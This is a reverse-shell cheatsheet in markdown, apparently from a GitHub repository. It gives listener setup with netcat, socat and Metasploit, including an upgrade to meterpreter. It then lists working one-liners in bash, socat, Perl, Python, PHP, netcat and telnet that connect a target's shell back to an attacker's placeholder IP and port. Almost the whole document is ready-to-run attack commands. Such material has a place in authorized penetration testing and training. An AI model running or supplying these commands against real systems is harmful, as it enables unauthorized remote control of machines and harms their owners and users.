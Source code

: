 # Cheatsheet for Reverse-shell one-liner

## Table of contents
* [Socat](#socate)
* [Bash](#bash)
* [Perl](#perl)
* [Python](#python)
* [PHP](#php)
* [Netcat](#netcat)
* [Telnet](#telnet)

## Spawn a handler
### Netcat
```bash
nc -lvp <PORT>
```

### Socat
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444 
```

### Metasploit
```bash
msf5 > use exploit/multi/handler
msf5 > set PAYLOAD <Payload name>
msf5 > set LHOST <LHOST value>
msf5 > set LPORT <LPORT value>
msf5 > set ExitOnSession false
msf5 > exploit -j -z
```
Shell will be spawn as a background session. You can then upgrade to meterpreter using another handler :
```bash
msf5 > use post/multi/manage/shell_to_meterpreter
msf5 > set SESSION <SESSION_ID>
msf5 > exploit
```

## Reverse-shell one-liner
### Socat <a name="socate"></a>
Full interactive shell !!!
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:<PORT>
```

### Bash <a name="bash"></a>
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```
```bash
exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do $line 2>&5 >&5; done
```
```bash
exec /bin/sh 0</dev/tcp/<IP>/<PORT> 1>&0 2>&0
```
```bash
0<&196;exec 196<>/dev/tcp/<IP>/<PORT>; sh <&196 >&196 2>&196
```

### Perl <a name="perl"></a>
Version dépendante de « /bin/sh » :
```bash
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Version indépendante de « /bin/sh » pour Linux (avec fork) :
```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<IP>:<PORT>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Python <a name="python"></a>
Full Python :
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Python with system call to bash :
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### PHP <a name="php"></a>
```bash
php -r '$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);`/bin/sh -i <&3 >&3 2>&3`;'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);system("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

### Netcat <a name="netcat"></a>
```bash
nc -e /bin/sh <IP> <PORT>
```
```bash
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc <IP> <PORT> > f
```
```bash
rm -f x; mknod x p && nc <IP> <PORT> 0<x | /bin/bash 1>x
```

### Telnet <a name="telnet"></a>
```bash
telnet <IP> <PORT1> | /bin/bash | telnet <IP> <PORT2>
```
```bash
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet <IP> <PORT> > f
```
```bash
rm -f x; mknod x p && telnet <IP> <PORT> 0<x | /bin/bash 1>x
```
